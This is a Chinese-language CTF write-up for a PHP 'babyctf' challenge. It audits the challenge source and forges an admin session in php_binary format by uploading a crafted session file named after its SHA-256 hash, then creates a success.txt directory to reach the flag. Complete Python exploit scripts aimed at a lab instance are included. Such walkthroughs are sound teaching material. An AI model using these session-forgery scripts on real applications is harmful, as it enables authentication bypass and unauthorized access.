




参考博客：https://blog.csdn.net/m0_64297700/article/details/128831847

# 知识点

## **php_binary引擎下的session伪造**

**php_binary存储方式：键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值**

```
Ascii字符+usernames:5:"admin";
```

**php存储方式：键名+竖线+经过serialize()函数序列处理的值**

```
username|s:5:"admin";
```

**php_serialize(php>5.5.4)存储方式是：经过serialize()函数序列化处理的值;**

```
a:1:{s:8:"username";s:5:"admin";}
```

---

**打开页面发现源码：**

```
<?php
error_reporting(0);
session_save_path("/var/babyctf/");
session_start();
require_once "/flag";
highlight_file(__FILE__);
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
else{
    $_SESSION['username'] ='guest';
}
$direction = filter_input(INPUT_POST, 'direction');
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;
if($attr==="private"){
    $dir_path .= "/".$_SESSION['username'];
}
if($direction === "upload"){
    try{
        if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
            throw new RuntimeException('invalid upload');
        }
        $file_path = $dir_path."/".$_FILES['up_file']['name'];
        $file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
        if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        @mkdir($dir_path, 0700, TRUE);
        if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
            $upload_result = "uploaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $upload_result = $e->getMessage();
    }
} elseif ($direction === "download") {
    try{
        $filename = basename(filter_input(INPUT_POST, 'filename'));
        $file_path = $dir_path."/".$filename;
        if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        if(!file_exists($file_path)) {
            throw new RuntimeException('file not exist');
        }
        header('Content-Type: application/force-download');
        header('Content-Length: '.filesize($file_path));
        header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
        if(readfile($file_path)){
            $download_result = "downloaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $download_result = $e->getMessage();
    }
    exit;
}
?>
```

**设置session存储路径并在根目录下包含flag**

```
session_save_path("/var/babyctf/");
session_start();
require_once "/flag";
```

---

**如果`username===admin`就会检查`/var/babyctf/`目录下是否存在`success.txt`，如果存在的话就会删除`success.txt`然后输出flag**

```
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
else{
    $_SESSION['username'] ='guest';
}
```

---

**设置两个post参数`direction`和`attr`，然后`$dir_path`拼接路径，若`$attr===private`，就在`$dir_path`路径的基础上再拼接一个`$_SESSION['username']`的值：**

```
$direction = filter_input(INPUT_POST,'direction');
$attr = filter_input(INPUT_POST,'attr');
$dir_path = "/var/babyctf/".$attr;
if($attr==="private"){
	$dir_path .= "/".$_SESSION['username'];
}
```

---

**判断如果`direction===upload`，首先判断是否正常上传，如果通过就在`$dir_path`下拼接文件名，然后再拼接一个`_`，再加上文件名的`sha256`值，然后使用正则匹配限制目录穿越，创建并把文件上传到相应目录下。**

```
if($direction === "upload"){
    try{
        if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
            throw new RuntimeException('invalid upload');
        }
        $file_path = $dir_path."/".$_FILES['up_file']['name'];
        $file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
        if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        @mkdir($dir_path, 0700, TRUE);
        if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
            $upload_result = "uploaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $upload_result = $e->getMessage();
    }
```

---

**如果`$direction===download`，提取上传上来的文件名，拼接为`$file_path`，然后又是限制目录穿越，然后再判断文件是否存在，如果存在则返回文件内容。**

```
} elseif ($direction === "download") {
    try{
        $filename = basename(filter_input(INPUT_POST, 'filename'));
        $file_path = $dir_path."/".$filename;
        if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        if(!file_exists($file_path)) {
            throw new RuntimeException('file not exist');
        }
        header('Content-Type: application/force-download');
        header('Content-Length: '.filesize($file_path));
        header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
        if(readfile($file_path)){
            $download_result = "downloaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $download_result = $e->getMessage();
    }
    exit;
}
```

---

## 解题分析

代码审计之后发现，如果要得到flag，需要满足两点。

```
1、$_SESSION['username'] === 'admin' --->username的值为admin

2、$filename='/var/babyctf/success.txt' --->/var/babyctf/目录下存在success.txt文件
```

### 解法一

**php的session默认存储文件名是sess_+PHPSESSID的值，先F12查看当前的session的值**



**让direction的值为download输出文件内容以判断session的存储方式，attr可以不传值，所以post构造**

```
direction=download&attr=&filename=sess_8bfa5d12ec0509c3919ea504f11346c5
```



**发现结果就是php_binary存储方式，接下来伪造admin的session值**

**脚本：**

```
<?php
ini_set('session.serialize_handler', 'php_binary'); //设置存储方式为php_binary;
session_save_path("D:\\phpstudy_pro\\WWW\\getsession\\"); //设置session文件保存路径
session_start();

$_SESSION['username'] = 'admin';
?>
```

生成sess文件



- **对文件名进行`sha256`计算，将文件名改为sess方便计算；**



结果：

```
432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4
```

然后上传我们的sess文件

```
direction=upload&attr=&filename=sess
usernames:5:"admin";
```

这里用脚本上传

```
import requests
import hashlib
# url需要修改为自己的靶场url
url = 'http://8ae461e5-88fb-4d46-b3b9-dc4a3fbaf063.node4.buuoj.cn:81/'
# 上传伪造的session文件
files = {"up_file": ("sess", b'\x08usernames:5:"admin";')}
data = {
    'direction': 'upload',
    'attr': ''
}
req = requests.post(url, data=data, files=files)
```

然后源码会将sess拼接成**sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4**

```
$file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
```

- **所以服务器存储为`sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`，抓包查看访问结果；**

```
direction=download&attr=&filename=sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4
```

**这样session伪造就成功了，接下来上传success.txt，已知`$filename`由[file_exists函数](https://www.runoob.com/php/func-filesystem-file-exists.html)检查文件或者目录是否存在，可将`attr`设置为`success.txt`创建目录，再上传到该目录下即可绕过判断；**

```
$dir_path = "/var/babyctf/".$attr;
```

注意：这里必须随便传个文件不然过不了这个if判断，可以写个表单来传也可以用python脚本来传

```
if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
            throw new RuntimeException('invalid upload');
        }
```

---

```
import requests
import hashlib
# url需要修改为自己的靶场url
url = 'http://8ae461e5-88fb-4d46-b3b9-dc4a3fbaf063.node4.buuoj.cn:81/'
#随便传个文件
files = {"up_file": ("123", b'123";')}
data1 = {
    'attr': 'success.txt',
    'direction': 'upload'
}
req1 = requests.post(url=url, data=data1, files=files)
```

然后**修改PHPSESSID为`432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`**

**然后刷新页面即可看到flag**

### 解法二

直接用脚本

```
import requests
import hashlib
# url需要修改为自己的靶场url
url = 'http://8ae461e5-88fb-4d46-b3b9-dc4a3fbaf063.node4.buuoj.cn:81/'
# 上传伪造的session文件
files = {"up_file": ("sess", b'\x08usernames:5:"admin";')}
data = {
    'direction': 'upload',
    'attr': ''
}
req = requests.post(url, data=data, files=files)

# 获取session_id
session_id = hashlib.sha256(b'\x08usernames:5:"admin";').hexdigest()

# 在/var/babyctf/下创建success.txt目录
data1 = {
    'attr': 'success.txt',
    'direction': 'upload'
}
req1 = requests.post(url=url, data=data1, files=files)

# 通过伪造的session文件解析，获取flag
cookie = {
    'PHPSESSID': session_id
}

flag = requests.get(url, cookies=cookie)
print(flag.text)
```


